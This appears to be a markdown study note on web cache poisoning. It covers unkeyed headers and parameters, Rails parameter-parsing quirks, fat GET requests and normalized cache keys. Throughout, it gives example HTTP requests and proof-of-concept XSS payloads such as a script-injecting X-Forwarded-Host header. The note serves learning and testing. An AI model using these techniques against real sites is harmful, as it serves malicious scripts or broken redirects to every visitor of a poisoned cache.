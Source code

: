 # Web cache poisoning

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

Two phases:

1. Find a way to trigger a response that unintentionally includes a dangerous payload.
2. Ensure the response is cached and served to the intended victims after success.

## <mark style="color:purple;">Exploiting cache design flaws</mark>

**Web cache poisoning to deliver XSS**

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

`X-Forwarded-Host` is unkeyed. Exploit: `X-Forwarded-Host: a."><script>alert(1)</script>"`

If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload

{% hint style="info" %}
**Note**: try also multiple headers

```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```
{% endhint %}

### <mark style="color:purple;">Exploiting responses that expose too much information</mark>

**Cache-control directives**

A challenge in web cache poisoning is ensuring the harmful response gets cached, often requiring manual trial and error. However, sometimes responses reveal information that helps the attacker successfully poison the cache.

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

**Vary header**

The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. For example, it is commonly used to specify that the `User-Agent` header is keyed. If the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

## <mark style="color:purple;">Exploiting cache implementation flaws</mark>

The methodology involves the following steps:

1. Identify a suitable cache oracle
   * A cache oracle is a cacheable page or endpoint that provides feedback on whether a response was cached or served directly from the server.
2. Identify and evaluate unkeyed inputs
   * Adding random inputs to requests and observing their effect on the response, whether it's directly reflected or triggers a different response.
3. Identify an exploitable gadget
   * These gadgets will often be classic client-side vulnerabilities, such as reflected XSS and open redirects.

{% hint style="success" %}
**Tip**: use Param Miner extension to identify unkeyed inputs (Guess headers)
{% endhint %}

### <mark style="color:purple;">Unkeyed port</mark> <a href="#unkeyed-port" id="unkeyed-port"></a>

In this way you can:

* Enable a denial-of-service attack by adding an arbitrary port, redirecting users to a non-functional port.&#x20;
* Enable XSS payload injection.

### <mark style="color:purple;">Unkeyed query string</mark> <a href="#unkeyed-query-string" id="unkeyed-query-string"></a>

Like the Host header, the request line is usually keyed, but one of the most common cache-key transformations is the exclusion of the entire query string.

**Detecting an unkeyed query string**

You can use alternative cache busters, like adding them to a keyed header that doesn’t affect the app’s behavior.

```http
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.vulnerable-website.com
```

### <mark style="color:purple;">Unkeyed query parameters</mark> <a href="#unkeyed-query-parameters" id="unkeyed-query-parameters"></a>

Some websites only exclude specific query parameters that are not relevant to the back-end application, such as parameters for analytics or serving targeted advertisements. UTM parameters like `utm_content`.

#### Detection

First time

```http
GET /?first=test1&utm_content=a HTTP/2

HTTP/2 200 OK
X-Cache: miss
```

Second time

```http
GET /?first=test1&utm_content=b HTTP/2

HTTP/2 200 OK
X-Cache: hit
```

{% hint style="success" %}
**Tip**: use Param Miner extension to identify unkeyed inputs.
{% endhint %}

### <mark style="color:purple;">**Exploiting parameter parsing quirks**</mark>

This happen when back-end identifies distinct parameters that the cache does not. The Ruby on Rails framework, for example, interprets both ampersands (`&`) and semicolons (`;`) as delimiters

```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```

As the names suggest, `keyed_param` is included in the cache key, but `excluded_param` is not. Many caches will only interpret this as two parameters, delimited by the ampersand:

```
1.    keyed_param=abc
2.    excluded_param=123;keyed_param=bad-stuff-here
```

Once the parsing algorithm removes the `excluded_param`, the cache key will only contain `keyed_param=abc`. On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters:

```
1.    keyed_param=abc
2.    excluded_param=123
3.    keyed_param=bad-stuff-here
```

But now there is a duplicate `keyed_param`. This is where the second quirk comes into play. If there are duplicate parameters, each with different values, Ruby on Rails gives precedence to the final occurrence. The end result is that the cache key contains an innocent, expected parameter value, allowing the cached response to be served as normal to other users. On the back-end, however, the same parameter has a completely different value, which is our injected payload. It is this second value that will be passed into the gadget and reflected in the poisoned response.

### <mark style="color:purple;">**Exploiting fat GET support**</mark>

Although this scenario is pretty rare, you can sometimes simply add a body to a `GET` request to create a "fat" `GET` request. In this case you can "overwrite" the param value

```http
GET /?param=innocent HTTP/1.1
[…]

param=bad-stuff-here
```

### <mark style="color:purple;">Normalized cache keys</mark> <a href="#normalized-cache-keys" id="normalized-cache-keys"></a>

Problem: when you find reflected XSS in a parameter, it is often unexploitable in practice. This is because modern browsers typically URL-encode the necessary characters when sending the request, and the server doesn't decode them.

Example:

You send the follow URL to a victim

```
https://vulnerable.website.net/test<script>alert(1)</script>
```

His browser send the following request

```http
GET /test%3Cscript%3Ealert(1)%3C/script%3E HTTP/2
Host: vulnerable.website.net
[...]


HTTP/2 404 Not Found
[...]

<p>Not Found: /test<script>alert(1)</script></p>
```

So, normally this XSS is unexploitable.

**Exploitation with normalized cache keys**

Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:

```http
GET /example?param="><test>
GET /example?param=%22%3e%3ctest%3e
```

When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload.

